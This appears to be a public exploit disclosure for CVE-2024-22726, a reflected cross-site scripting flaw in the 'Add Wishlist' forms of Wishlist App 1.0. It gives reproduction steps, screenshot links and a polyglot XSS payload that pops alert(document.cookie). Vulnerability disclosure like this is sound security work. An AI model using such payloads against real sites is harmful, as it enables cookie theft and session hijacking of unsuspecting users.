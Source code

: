 # Wishlist App - CVE-2024-22726
+ *Exploit Title:* CVE-2024-22726 - Cross Site Scripting
+ *Date:* 2024-08-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17089/wishlist-app-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17089&title=Wishlist+App+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-22726

## References: 
+ https://portswigger.net/web-security/cross-site-scripting

## Description:
Wishlist App 1.0 allows mirrored cross-site scripting of the 'Name' and 'Wishlist' forms in the 'Add Wishlist' section in the 'http://localhost/wishlist-app/wishlist.php' path. The Wishlist App is vulnerable to a cross-site scripting vulnerability because it fails to adequately sanitize user-supplied data.
An attacker could exploit this issue to run arbitrary script code on an unsuspecting user's browser in the context of the affected site. This could allow an attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of concept:
+ Go to 'View List' or 'View Wishlist'.
+ Go to 'Add Wishlist'.
+ Go to the 'Name' or 'Wishlist' forms and use these payloads: `jaVasCript:/-///'/"/*/(//oNcliCk=alert(1) )//%0D%0A%0d%0a //</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert(document.cookie)//>\x3e '
+ Then click 'Save changes'.
+XSS will be loaded.
+ Scroll to and click 'View Wishlist' section.
+ Alerts will pop up.

# Exploting:
  *1:*
  
  ![Ekran görüntüsü 2024-01-25 143920](https://github.com/tubakvgc/CVE/assets/74067343/2a4c612c-f056-469e-ad0b-6c727de289fe)


  *2:*

  ![Ekran görüntüsü 2024-01-25 144032](https://github.com/tubakvgc/CVE/assets/74067343/f5195c41-5be3-4e0e-9b02-75afd56d7f91)


  *3:*

 ![Ekran görüntüsü 2024-01-25 144130](https://github.com/tubakvgc/CVE/assets/74067343/b6b309d5-c7a5-4484-8f89-b4e64ab42259)



  *4:*

![Ekran görüntüsü 2024-01-25 144141](https://github.com/tubakvgc/CVE/assets/74067343/6e418b37-016c-4d9c-b9fa-17dd29f8c559)


  *5:*
  
  ![Ekran görüntüsü 2024-01-25 144214](https://github.com/tubakvgc/CVE/assets/74067343/7ea89e79-7649-4c51-9516-209e11b98a3b)



  *6:*
  
  ![Ekran görüntüsü 2024-01-25 144450](https://github.com/tubakvgc/CVE/assets/74067343/7b2a7b19-75f2-49c2-9ca5-ef328499929f)


  *7:*

  ![Ekran görüntüsü 2024-01-25 144508](https://github.com/tubakvgc/CVE/assets/74067343/ce3fed82-f09e-4099-ae5c-61b71e939eb4)
  
